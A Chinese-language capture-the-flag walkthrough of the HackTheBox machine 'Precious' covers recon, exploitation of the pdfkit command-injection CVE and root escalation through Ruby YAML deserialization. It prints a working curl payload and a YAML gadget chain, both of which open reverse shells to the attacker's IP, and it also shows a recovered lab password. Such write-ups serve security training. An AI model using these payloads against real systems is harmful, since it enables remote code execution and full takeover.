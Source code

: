 ```yaml
---
title: HackTheBox-Precious
date: 2025-5-21 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```




# 信息收集

## nmap

![image-20250521212332823](./Percious/image-20250521212332823.png)

## web

这是一个将web页面内容转换为pdf的网站

![image-20250521212422769](./Percious/image-20250521212422769.png)

可以从请求头中得知架构以及使用的语言

```
nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Ruby
```

![image-20250521212527123](./Percious/image-20250521212527123.png)

使用exiftool工具查看转换后的pdf文件，可以看到创建者，搜索一下可以知道这是一个ruby语言创建pdf的工具

![image-20250521212625434](./Percious/image-20250521212625434.png)

并且该工具存在远程代码执行的漏洞[PurpleWaveIO/CVE-2022-25765-pdfkit-Exploit-Reverse-Shell：pdfkit <0.8.6 命令注入 shell。](./https://github.com/PurpleWaveIO/CVE-2022-25765-pdfkit-Exploit-Reverse-Shell)

![image-20250521212855066](./Percious/image-20250521212855066.png)

通过该漏洞就可以得到ruby用户的shell，payload：

```
curl 'http://precious.htb' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://precious.htb' -H 'Connection: keep-alive' -H 'Referer: http://precious.htb/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F10.10.16.4%3A8000%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.16.4%22%2C4444%29%29%27%60' --output http
```

![image-20250521215242936](./Percious/image-20250521215242936.png)

在用户主目录下有一个不是常规文件夹，搜索得知bundle是一个rubu库，用来生成pdf文件的

![image-20250521220353114](./Percious/image-20250521220353114.png)

其中有配置目录，目录下有henry用户的账号密码

![image-20250521220329896](./Percious/image-20250521220329896.png)

```
henry:Q3c1AqGHtoI0aXAYFH
```

## 提权

该用户可以以sudo权限运行`/opt/update_dependencies.rb`文件

该文件加载了一个yml文件，这个文件是可控的

```
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```

[Python](./https://pynative.com/python-yaml/#h-loading-a-yaml-document-safely-using-safe_load) 和 [Ruby](./https://apidock.com/ruby/Psych/safe_load/class) 都有一个用于加载 YAML 的 `safe_load` 函数。这是因为两者都在原始加载和反序列化 YAML 负载方面存在问题，从而导致代码执行。

[这个 gist](./https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml) 有一个非常简洁的有效负载示例，可用于在 Ruby 中利用 YAML 反序列化。它基于这篇[更长、更详细的文章 ](./https://www.elttam.com.au/blog/ruby-deserialization/)。

将内容改为可以shellcode

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'sh -i >& /dev/tcp/10.10.16.4/4443 0>&1'"
         method_id: :resolve
```

攻击机监听4443端口，就可以得到root的shell

![image-20250521224354951](./Percious/image-20250521224354951.png)
